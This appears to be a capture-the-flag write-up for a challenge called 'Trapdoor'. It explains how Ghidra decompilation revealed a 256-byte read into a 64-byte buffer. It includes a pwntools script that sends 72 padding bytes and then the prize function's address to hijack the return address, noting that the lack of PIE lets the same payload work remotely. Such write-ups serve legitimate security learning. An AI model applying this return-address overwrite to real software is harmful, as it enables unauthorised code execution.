






# Trapdoor

In this challenge, we are provided with a web interface to interact with the binary, "trapdoor", running on their server:



We are also given the binary, but not the source code, so I use Ghidra to decompile it:



The main function calls a function called vuln:



Note that 256 characters are read into a 64 byte buffer.  
Ghidra also reveals a function called prize:



Since we are provided with the binary, we can test our exploit locally. In exploit.py, I attempt to exploit the buffer overflow to overwrite the return address for the vuln function with the address of the prize function:

```
from pwn import *
import io

elf = ELF("./trapdoor")
p = process("./trapdoor")

payload = b"A"*72
payload = payload +  p64(elf.sym.prize)

print(p.recv())
p.send(payload)
print(b"\n payload of " + payload + b" was sent\n")
print(p.recv())
```

Testing this locally reveals we have successfully overwritten the return address:



Since there is no PIE, the same payload works on the web interface:

